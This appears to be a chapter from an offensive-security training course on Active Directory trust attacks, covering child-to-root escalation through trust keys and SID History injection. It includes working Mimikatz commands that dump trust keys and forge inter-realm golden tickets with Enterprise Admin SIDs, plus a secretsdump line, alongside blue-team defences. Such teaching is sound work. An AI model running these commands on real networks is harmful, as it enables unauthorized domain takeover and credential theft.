


# Domain Trust Attacks: Breaking Boundaries

> **Executive Summary**: Large organizations have multiple Domains and Forests. Trusts link them. If you compromise a Child Domain (e.g., `dev.corp.local`), you can often escalate to the Parent/Root Domain (`corp.local`) using the **Trust Key** and **SID History**. This chapter explains how to jump domain boundaries.

## 1. Learning Objectives
By the end of this chapter, you will be able to:
- **Map Trusts**: Identify Trust Keys and Directions.
- **Dump Trust Keys**: Extract the Inter-Realm Key.
- **Forge Inter-Realm Tickets**: Create referral tickets to jump domains.
- **Abuse SID History**: Inject Enterprise Admin SIDs into tickets.

## 2. Core Concepts: The Trust Key

### 2.1 Inter-Realm Key
When Domain A trusts Domain B, they share a password (like a krbtgt, but for the trust).
- Stored as a user object: `B$` inside Domain A.
- Used to sign **Referral Tickets** (TGTs passed between domains).

### 2.2 SID Filtering
A protection mechanism.
- **Enabled (Default)**: Domain A discards any SIDs in the ticket that don't belong to Domain B.
- **Disabled (Quarantine: No)**: Domain A accepts whatever SIDs Domain B puts in the ticket (including Domain A's Enterprise Admin SID!).
- **Vulnerability**: Intra-Forest trusts (Parent-Child) usually have SID Filtering **Disabled**.

## 3. Deep Dive: Child to Parent Escalation

### 3.1 The Scenario
- You are DA in `child.corp.local`.
- You want DA in `corp.local` (Root).
- Trust is bidirectional, Parent-Child.

### 3.2 The Attack
1.  **Dump Trust Key**: On Child DC, dump the hash of the Trust Account (`CORP$`).
2.  **Get Root SID**: Find the SID of the Root Domain.
3.  **Forge Golden Ticket**:
    - Sign with: Trust Key (`CORP$`).
    - User: Administrator.
    - **Extra SIDs (SID History)**: Add the SID of "Enterprise Admins" from the Root Domain.
4.  **Result**: An Inter-Realm TGT. Present this to the Root DC. It sees "Enterprise Admin" in SID History. It trusts it (because it was signed by the valid Trust Key and SID Filtering is off).

## 4. Red Team Perspective

### 4.1 Enumeration
```powershell
Get-NetDomainTrust
Get-NetForestDomain
```

### 4.2 Mimikatz Execution
**Dump Key**:
`lsadump::trust /patch`

**Forge Ticket**:
```cmd
kerberos::golden /user:Admin /domain:child.corp.local /sid:[ChildSID] /sids:[RootEnterpriseAdminSID] /krbtgt:[TrustKeyHash] /service:krbtgt /target:root.corp.local /ticket:trust.kirbi
```

**Use Ticket**:
`kerberos::ptt trust.kirbi`
`dir \\root-dc\c$`

## 5. Blue Team Perspective

### 5.1 SID Filtering
Ensure SID Filtering is enabled on *External* and *Forest* trusts.
For Parent-Child, you cannot enable it (it breaks migration). This is why **Child Domain Admin = Enterprise Admin**.
**Defense**: Treat all Child Domain Admins as Enterprise Admins. Do not have weak security in Child domains.

### 5.2 Selective Auth
For external trusts, use "Selective Authentication". Users from Domain B don't get access to everything; they must be explicitly allowed on specific servers in Domain A.

## 6. Practical Lab: Trust Hopping

### Scenario: The Child Domain
You compromised the Child DC.

**Step 1: Get SIDs**
Child SID: `S-1-5-21-CHILD`
Root SID: `S-1-5-21-ROOT`
Enterprise Admin SID: `S-1-5-21-ROOT-519`

**Step 2: Dump Trust Hash**
On Child DC:
```bash
secretsdump.py child.local/admin:pass@child-dc -just-dc-user 'ROOT$'
```

**Step 3: Forge**
Create a ticket with `ExtraSids = 519`.

**Step 4: Pivot**
Use ticket to DCSync the Root Domain.

## 7. Diagrams

### The Trust Flow



## 8. Critical Analysis

### The Security Boundary
Microsoft says the **Forest** is the security boundary, NOT the Domain.
If you compromise a Child Domain, you effectively compromise the Forest.
Blue Teams often treat Child Domains (e.g., `dev.corp`) as "Lower Security", but this is a fatal mistake due to trust mechanics.

### Interview Questions
1.  **Q**: What is the difference between a Forest Trust and an External Trust?
    -   **A**: **Forest Trust**: Links two forests (Kerberos only, transitive within restrictions). **External Trust**: Links two domains (NTLM/Kerberos, non-transitive). Used for legacy or specific needs.
2.  **Q**: Can you perform SID History injection across a Forest Trust?
    -   **A**: Generally No. SID Filtering is enabled by default on Forest Trusts ("Quarantine"). AD filters out SIDs that don't belong to the Trusted Domain.

## 9. References
- [[06_Active_Directory_Attacks/03_Kerberos_Attacks_II]]
- [[04_Windows_AD/03_Active_Directory_Structure]]
